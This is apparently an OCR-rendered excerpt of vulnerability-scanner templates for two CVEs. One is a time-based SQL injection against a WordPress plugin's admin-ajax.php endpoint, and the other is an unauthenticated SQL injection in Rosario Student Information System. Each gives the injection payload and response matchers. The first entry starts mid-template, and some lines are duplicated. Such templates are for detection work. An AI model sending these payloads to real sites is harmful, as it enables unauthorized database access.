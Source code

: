 - severity - critical
- tags - cve,wpscan,cve2021,sqli,wp,wordpress,wp-plugin,unauth,edb

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-admin/admin-ajax.php?action=get_question&question_id=1%20AND%20(SELECT%207242%20FROM%20(SELECT(SLEEP(4)))HQYx)

### Matchers

**Type - dsl**

- dsl
  1. duration>=4

**Type - word**

- part - header
- words
  1. wp-ps-session

**Type - status**

- status
  1. 404

---

# Rosario Student Information System Unauthenticated SQL Injection

## Description

- An unauthenticated SQL injection vulnerability in Rosario Student Information System (aka rosariosis) 8.1 and below allow remote attackers to execute PostgreSQL statements (e.g., SELECT, INSERT, UPDATE, and DELETE) through /Side.php via the syear parameter.
- severity - critical
- tags - cve,cve2021,sqli,rosariosis

## Requests

- Method - POST
- Method - POST

### URL

- {{BaseURL}}/Side.php
  - sidefunc=update&syear=111'
